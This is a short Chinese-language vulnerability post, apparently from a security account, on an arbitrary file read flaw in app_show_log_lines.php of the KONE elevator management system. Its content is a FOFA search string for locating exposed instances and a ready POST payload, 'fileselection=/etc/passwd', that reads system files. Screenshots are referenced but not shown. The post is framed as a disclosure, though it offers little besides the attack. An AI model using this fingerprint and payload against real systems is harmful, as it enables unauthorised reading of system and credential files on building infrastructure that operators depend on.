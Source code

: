#  KONE-通力电梯管理系统-app_show_log_lines.php-任意文件读取漏洞   
骇客安全  骇客安全   2025-01-19 07:39  
  
## 漏洞描述  
  
KONE 通力电梯 app_show_log_lines.php文件过滤不足导致任意文件读取漏洞  
  
## 漏洞影响  
```
KONE 通力电梯管理系统
```  
  
## FOFA  
```
"KONE Configuration management"
```  
  
## 漏洞复现  
  
主页面  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/IePibcXn991PEWKXnS6E5dmcAISUe2WnplwXGjyRKeoW9UBucC8w7zZMUDSEOVv6Y29k3jYl0fQevEZrUB50IdA/640?wx_fmt=png&from=appmsg "null")  
  
  
发送POST请求包  
  
```
fileselection=/etc/passwd
```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/IePibcXn991PEWKXnS6E5dmcAISUe2WnpWz1uXb6z2MUQyHFMcBLTlHa0Q7WDxces4OmbrwtDMicn9IucjuR0O9A/640?wx_fmt=png&from=appmsg "null")  
  
  
